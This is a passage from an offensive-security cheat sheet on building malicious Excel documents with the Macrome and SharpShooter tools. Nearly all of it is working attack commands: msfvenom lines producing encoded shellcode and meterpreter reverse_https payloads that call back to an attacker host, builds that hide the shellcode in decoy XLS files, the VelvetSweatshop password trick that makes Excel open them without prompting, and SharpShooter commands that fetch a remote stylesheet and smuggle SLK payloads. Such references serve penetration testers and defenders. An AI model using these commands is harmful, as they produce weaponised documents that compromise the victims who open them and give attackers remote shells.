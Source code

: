* https://github.com/michaelweber/Macrome/releases/download/0.3.0/Macrome-0.3.0-osx-x64.zip
* https://github.com/michaelweber/Macrome/releases/download/0.3.0/Macrome-0.3.0-linux-x64.zip
* https://github.com/michaelweber/Macrome/releases/download/0.3.0/Macrome-0.3.0-win-x64.zip

```ps1
# NOTE: The payload cannot contains NULL bytes.

# Default calc
msfvenom -a x86 -b '\x00' --platform windows -p windows/exec cmd=calc.exe -e x86/alpha_mixed -f raw EXITFUNC=thread > popcalc.bin
msfvenom -a x64 -b '\x00' --platform windows -p windows/x64/exec cmd=calc.exe -e x64/xor -f raw EXITFUNC=thread > popcalc64.bin
# Custom shellcode
msfvenom -p generic/custom PAYLOADFILE=payload86.bin -a x86 --platform windows -e x86/shikata_ga_nai -f raw -o shellcode-86.bin -b '\x00'
msfvenom -p generic/custom PAYLOADFILE=payload64.bin -a x64 --platform windows -e x64/xor_dynamic -f raw -o shellcode-64.bin -b '\x00'
# MSF shellcode
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.59 LPORT=443 -b '\x00'  -a x64 --platform windows -e x64/xor_dynamic --platform windows -f raw -o msf64.bin
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.59 LPORT=443 -b '\x00' -a x86 --encoder x86/shikata_ga_nai --platform windows -f raw -o msf86.bin

dotnet Macrome.dll build --decoy-document decoy_document.xls --payload popcalc.bin --payload64-bit popcalc64.bin
dotnet Macrome.dll build --decoy-document decoy_document.xls --payload shellcode-86.bin --payload64-bit shellcode-64.bin

# For VBA Macro
Macrome build --decoy-document decoy_document.xls --payload-type Macro --payload macro_example.txt --output-file-name xor_obfuscated_macro_doc.xls --password VelvetSweatshop
```

When using Macrome build mode, the --password flag may be used to encrypt the generated document using XOR Obfuscation. If the default password of **VelvetSweatshop** is used when building the document, all versions of Excel will automatically decrypt the document without any additional user input. This password can only be set in Excel 2003.


## XLM Excel 4.0 - SharpShooter

* https://github.com/mdsecactivebreach/SharpShooter

```powershell
# Options
-rawscfile <path>  Path to raw shellcode file for stageless payloads
--scfile <path>    Path to shellcode file as CSharp byte array
python SharpShooter.py --payload slk --rawscfile shellcode.bin --output test

# Creation of a VBA Macro
# creates a VBA macro file that uses the the XMLDOM COM interface to retrieve and execute a hosted stylesheet.
SharpShooter.py --stageless --dotnetver 2 --payload macro --output foo --rawscfile ./x86payload.bin --com xslremote --awlurl http://192.168.2.8:8080/foo.xsl

# Creation of an Excel 4.0 SLK Macro Enabled Document
~# /!\ The shellcode cannot contain null bytes
msfvenom -p generic/custom PAYLOADFILE=./payload.bin -a x86 --platform windows -e x86/shikata_ga_nai -f raw -o shellcode-encoded.bin -b '\x00'
SharpShooter.py --payload slk --output foo --rawscfile ~./x86payload.bin --smuggle --template mcafee

msfvenom -p generic/custom PAYLOADFILE=payload86.bin -a x86 --platform windows -e x86/shikata_ga_nai -f raw -o /tmp/shellcode-86.bin -b '\x00'
SharpShooter.py --payload slk --output foo --rawscfile /tmp/shellcode-86.bin --smuggle --template mcafee
```